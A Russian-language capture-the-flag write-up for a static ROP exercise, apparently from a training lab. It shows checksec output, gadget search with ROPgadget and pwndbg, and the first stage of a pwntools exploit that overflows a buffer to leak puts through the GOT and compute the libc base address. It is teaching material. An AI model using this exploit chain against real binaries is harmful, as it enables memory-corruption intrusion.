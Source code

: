 # WRITEUP.md

### Description

Простая таска на использование техники с `ROP` гаджетам цепачками.

### Solition


#### Step 1 - Проверка средств безопасности - checksec

Смотрим какие средства безопасности были использованы при комплияции бинаря, для этого используется утилита `checksec`:

![](img/img1.png)

```bash
$ checksec --file=main
[*] '/home/luksa/git/BugHunters_Lab/pwn-sprush/tasks/03-static-rop/app/main'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

#### Step 2 - Получаем адрес POP RDI RET

Узнаем адрес `pop rdi; ret`, есть 2 варианта:
- использовать утилиту `ROPgadget`;
- использовать `gdbpwn`;

Первый вариант, используем `ROPgadget`:

![](img/img2.png)
![](img/img3.png)

```bash
$ ROPgadget --binary ./main

Gadgets information
============================================================
0x0000000000401057 : add al, byte ptr [rax] ; add byte ptr [rax], al ; jmp 0x401020
0x00000000004010bb : add bh, bh ; loopne 0x401125 ; nop ; ret
0x0000000000401037 : add byte ptr [rax], al ; add byte ptr [rax], al ; jmp 0x401020
< ... SKIP ... >

0x00000000004010b6 : or dword ptr [rdi + 0x404028], edi ; jmp rax
0x000000000040112d : pop rbp ; ret
0x000000000040114a : pop rdi ; ret

< ... SKIP ... >

Unique gadgets found: 64
```

Второй вариант, используем `gdbpwn`:

![](img/img4.png)

```c
└─$ gdb-pwndbg main
Reading symbols from main...
(No debugging symbols found in main)
pwndbg> 
pwndbg> x/32i ROP
   0x401146 <ROP>:	push   rbp
   0x401147 <ROP+1>:	mov    rbp,rsp
   0x40114a <ROP+4>:	pop    rdi
   0x40114b <ROP+5>:	ret
   0x40114c <ROP+6>:	nop
   0x40114d <ROP+7>:	pop    rbp
   0x40114e <ROP+8>:	ret
   0x40114f <func>:     push   rbp
   0x401150 <func+1>:	mov    rbp,rsp
   0x401153 <func+4>:	sub    rsp,0x20
   0x401157 <func+8>:	lea    rax,[rbp-0x20]
   0x40115b <func+12>:	mov    edx,0x100
   0x401160 <func+17>:	mov    rsi,rax
   0x401163 <func+20>:	mov    edi,0x0
   0x401168 <func+25>:	call   0x401040 <read@plt>

```

Получем адрес `pop_rdi = 0x40114a`


#### Step 3 - Получем адреса puts@plt / puts@got.plt

Требуется получить адреса puts@plt и puts@got.plt, для этого:
 1. выполняем `info functions`
 2. извлекаем адрес обертки `puts@plt`
 3. извлекаем адрес `puts@got.plt` где должен лежать `libc.so`

![](img/img5.png)

```c
pwndbg> info functions 
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  puts@plt
0x0000000000401040  read@plt
0x0000000000401050  setvbuf@plt
0x0000000000401060  _start
0x0000000000401090  _dl_relocate_static_pie
0x00000000004010a0  deregister_tm_clones
0x00000000004010d0  register_tm_clones
0x0000000000401110  __do_global_dtors_aux
0x0000000000401140  frame_dummy
0x0000000000401146  ROP
0x000000000040114f  func
0x0000000000401170  main
0x00000000004011d0  _fini

pwndbg> x/8i 0x0000000000401030
   0x401030 <puts@plt>:	        jmp    QWORD PTR [rip+0x2fca]   # 0x404000 <puts@got.plt>
   0x401036 <puts@plt+6>:	    push   0x0
   0x40103b <puts@plt+11>:	    jmp    0x401020
   0x401040 <read@plt>:	        jmp    QWORD PTR [rip+0x2fc2]   # 0x404008 <read@got.plt>
   0x401046 <read@plt+6>:	    push   0x1
   0x40104b <read@plt+11>:	    jmp    0x401020
   0x401050 <setvbuf@plt>:	    jmp    QWORD PTR [rip+0x2fba]   # 0x404010 <setvbuf@got.plt>
   0x401056 <setvbuf@plt+6>:    push   0x2

```

Получаем адреса:
 - puts@plt = 0x401030
 - puts@got.plt = 0x404000

#### Step 4 - первая честь эксплойта

В вашем коде используется 64-битный `calling convention`, где первый аргумент передаётся через регистр `RDI`. Цепочка `ROP` должна:

 1. Положить адрес (в данном случае адрес GOT записи для `puts`) в `RDI`
 2. Вызвать `puts@plt` (который выведет значение по этому адресу)
 3. Вернуться в `main` для второго этапа эксплойта

Пишем первую часть эксплойта, указываем адреса `ROP` гаджета и функции `puts`:

```python
from pwn import *

# адреса pop_rdi и puts@, берутся из info function для первого BOF
pop_rdi = 0x40114a
puts_got = 0x404000
puts_plt = 0x401030

```

Добавляем запуск приложения, создаем `ROP`-цепочку, затем выводим реальный адрес `puts` в hex формате.

```python
p = process('../app/main')
#pause()
p.recvline()
p.sendline(b'A'*40 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt))

#puts_addr = p.recv(6)
puts_addr = int(p.recvline()[:-1][::-1].hex(), 16)
```

Зная адрес функции puts в `libc.so`, можем узнать базовый адрес `libc.so`, но предварительно нужно узнать сдвиг (offset) используя gdbpwn:

![](img/img6.png)

```c
$ pwndbg app/main

pwndbg> start

< ... SKIP ... >

pwndbg> xinfo puts
Extended information for virtual address 0x7ffff7e2f760:

  Containing mapping:
    0x7ffff7dd8000     0x7ffff7f3d000 r-xp   165000  28000 /usr/lib/x86_64-linux-gnu/libc.so.6

  Offset information:
         Mapped Area 0x7ffff7e2f760 = 0x7ffff7dd8000 + 0x57760
         File (Base) 0x7ffff7e2f760 = 0x7ffff7db0000 + 0x7f760
      File (Segment) 0x7ffff7e2f760 = 0x7ffff7dd8000 + 0x57760
         File (Disk) 0x7ffff7e2f760 = /usr/lib/x86_64-linux-gnu/libc.so.6 + 0x7f760

 Containing ELF sections:
               .text 0x7ffff7e2f760 = 0x7ffff7dd8400 + 0x57360
pwndbg>
```

Наш сдвиг равен = `0x7f760`, дописываем первую часть:

```
# из puts вычитаем сдвиг до начального адреса libc
libc_addr = puts_addr - 0x7f760
```